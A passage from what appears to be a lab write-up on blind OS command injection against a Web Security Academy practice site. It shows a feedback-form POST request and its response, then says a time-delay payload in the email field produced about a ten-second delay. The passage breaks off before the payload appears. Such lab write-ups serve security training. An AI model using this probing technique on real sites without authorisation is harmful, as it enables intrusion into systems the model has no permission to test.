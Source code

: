 	After submitting feedback we just get a simple confirmation message
	
	![](../../../../assets/screenshots/command-injection/Pasted%20image%2020250801075935.png)
	
	The submission POST request and response are below:
	
	```
	POST /feedback/submit HTTP/1.1
	Host: 0ac6008a0376a6c98350af40005d0069.web-security-academy.net
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br, zstd
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 110
	Origin: https://0ac6008a0376a6c98350af40005d0069.web-security-academy.net
	Connection: keep-alive
	Referer: https://0ac6008a0376a6c98350af40005d0069.web-security-academy.net/feedback
	Cookie: session=8mtcQ6OZfUVHqePZkLJJFthKWrV0R6QQ
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors
	Sec-Fetch-Site: same-origin
	X-PwnFox-Color: magenta
	Priority: u=0
	
	csrf=tOw3LbawuI4HrrZRySXz0mv0uLBlRa4X&name=tester&email=tester%40test.com&subject=Testing&message=Test+message
	```
	
	```
	HTTP/1.1 200 OK
	Content-Type: application/json; charset=utf-8
	X-Frame-Options: SAMEORIGIN
	Connection: close
	Content-Length: 2
	
	{}
	```
	
	When we add a time delay payload in the email field, we get a (roughly) 10 second delay.
	
	```
	POST /feedback/submit HTTP/1.1
	Host: 0ac6008a0376a6c98350af40005d0069.web-security-academy.net
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br, zstd
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 110
	Origin: https://0ac6008a0376a6c98350af40005d0069.web-security-academy.net
	Connection: keep-alive
	Referer: https://0ac6008a0376a6c98350af40005d0069.web-security-academy.net/feedback
	Cookie: session=8mtcQ6OZfUVHqePZkLJJFthKWrV0R6QQ
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors
	Sec-Fetch-Site: same-origin